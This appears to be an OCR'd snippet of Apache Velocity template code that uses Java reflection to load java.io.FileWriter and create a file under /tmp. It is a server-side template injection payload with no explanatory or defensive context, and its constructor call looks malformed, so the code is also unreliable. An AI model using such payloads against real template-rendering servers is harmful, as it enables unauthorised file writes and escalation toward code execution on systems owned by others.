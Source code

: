 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b = $a.FileWriter("/tmp/xxxx"))
$monkey

